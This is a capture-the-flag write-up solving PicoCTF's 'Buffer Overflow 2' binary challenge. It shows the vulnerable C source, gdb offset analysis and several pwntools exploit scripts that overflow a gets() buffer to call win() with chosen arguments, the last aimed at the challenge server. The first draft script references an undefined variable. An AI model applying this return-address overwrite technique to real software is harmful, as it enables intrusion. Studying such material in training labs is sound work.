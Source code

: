 ```yaml
---
title: "PicoCTF: Buffer Overflow 2"
date: 2024-10-09T14:23:13-05:00
draft: false
tags:
- Buffer Overflow
- Binary Exploitation
- Code Review
- x86
- Pwn
---
```


### Description
Buffer Overflow 2 is a binary exploitation challenge that involves overflowing a buffer to not only call the win() function, but also to successfully pass the necessary arguments to it.


### Walkthrough
After downloading the vulnerable binary and its source code, the first thing I did was to view the source code.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

It is apparent that the binary is using the vulnerable ```gets()``` 
function with a buffer size of 100 bytes. We will need to overflow the buffer and 
call ```win()``` as well as pass in two arguments, ```0xCAFEF00D``` and
```0XF00DF00D```, in order to complete this challenge.

We can also see that we need a dummy flag in order for the program to execute correctly.

```
┌──(kali㉿kali)-[~/Writeups/pico/buff2]
└─$ echo 'pico{debug}' > flag.txt
```

To overflow the buffer, we first need to find the offset of the eip register. eip stands for 
"Extended Instruction Pointer" and as its name suggests, points to the next instruction to be 
executed in x86 systems. We want to write the address of ```win()``` to it. To find the address,
we can analyze ```vuln``` in gdb...

```
┌──(kali㉿kali)-[~/Writeups/pico/buff2]
└─$ gdb vuln
```

... and find the buffer allocation.

![GDB vuln buffer size](/img/pico/buff2/vuln_gets_alloc.png)

Notice that the address of offset ```ebp-0x6c``` is pushed onto the stack and is
read by ```gets()```. This means that after calling the ```gets``` function, there will be
108 (0x6c) bytes of buffer between the start of the buffer and the ```ebp``` register. Note
that the 108 bytes allocated differ from the 100-byte buffer declared in ```vuln.c```. 
Discrepancies like this are usually caused by padding or local variables.


{{< centralize-table >}}
| High Address |
| --- |
| ... |
| eip (4 bytes)|
| ebp (4 bytes)|
| buffer + padding (108 bytes)|
| ... |
| Low Address |
{{< /centralize-table >}}


```eip``` is at a higher address immediately after ```ebp```. Since ```ebp``` is a 4 byte register,
```eip``` is 112 (108 + 4) bytes from the start of the buffer. We will therefore need 112 bytes of padding
in our payload before ```eip``` starts being overwritten. 

Preliminary payload: 112 bytes padding + address of win().

```python
#!/usr/bin/python3

from pwn import *


p = process("./vuln")
elf = ELF("./vuln")

buffer_size = 112
padding = buffer_size * b'A'

addr_main = p32(elf.symbols["main"])

payload_list = [
		padding,
		addr_win
		]

payload = b''.join(payload_list)

p.sendline(payload)
p.interactive()
```

I didn't get a clear indication as to whether my payload succeeded, so I added a breakpoint
at the ```win()``` function through gdb. If ```win()``` is called, the program will pause execution.

```python
#!/usr/bin/python3

from pwn import *


p = process("./vuln")
elf = ELF("./vuln")

buffer_size = 112
padding = buffer_size * b'A'

addr_win = p32(elf.symbols["win"])

payload_list = [
		padding,
		addr_win
		]

payload = b''.join(payload_list)

with open("payload", "wb") as f:
    f.write(payload)

g = gdb.attach(p, gdbscript = '''
        b *win
        r < payload
    ''')

p.sendline(payload)
p.interactive()
```

![win() function stop](/img/pico/buff2/win_stop.png)

We do break, meaning our exploit successfully called ```win()```. Now, we need to add 
the arguments ```0XCAFEF00D``` and ```0XF00DF00D```. Let us take a look at the stack
frame for ```win()```.


{{< centralize-table >}}
| High Address |
| --- |
| ... |
| arg2 (4 bytes) |
| arg1 (4 bytes) |
| eip (4 bytes) |
| ebp (4 bytes) |
| ... |
| Low Address |
{{< /centralize-table >}}


Unlike x64 binaries, all function arguments in x86 programs are passed directly onto the stack.
After jumping to ```win()```, we will also need to overflow ```eip``` before we can pass in arg1 and arg2.
In my exploit script I set ```eip``` to be overflowed with the address of ```main()``` for the sake of
having a valid return address, but any 4 byte value should work since the flag is being printed directly in ```win()``` and we won't need to jump to another address.

```python
#!/usr/bin/python3

from pwn import *


p = process("./vuln")
elf = ELF("./vuln")

buffer_size = 112
padding = buffer_size * b'A'

addr_win = p32(elf.symbols["win"])
addr_main = p32(elf.symbols["main"])

arg1 = p32(0xCAFEF00D)
arg2 = p32(0xF00DF00D)

payload_list = [
        padding,
        addr_win,
        addr_main,
        arg1,
        arg2
        ]

payload = b''.join(payload_list)

p.sendline(payload)
p.interactive()
```

![Local binary flag](/img/pico/buff2/local_flag.png)

Our exploit was successful. Now all that's left to do is to change the target from
the local binary to the remote pico server.

```python
#!/usr/bin/python3

from pwn import *


# Change from local binary to remote pico server.
p = remote("saturn.picoctf.net", 54042) 
elf = ELF("./vuln")

buffer_size = 112
padding = buffer_size * b'A'

addr_win = p32(elf.symbols["win"])
addr_main = p32(elf.symbols["main"])

arg1 = p32(0xCAFEF00D)
arg2 = p32(0xF00DF00D)

payload_list = [
        padding,
        addr_win,
        addr_main,
        arg1,
        arg2
        ]

payload = b''.join(payload_list)

p.sendline(payload)
p.interactive()
```

![Pico flag](/img/pico/buff2/flag.png)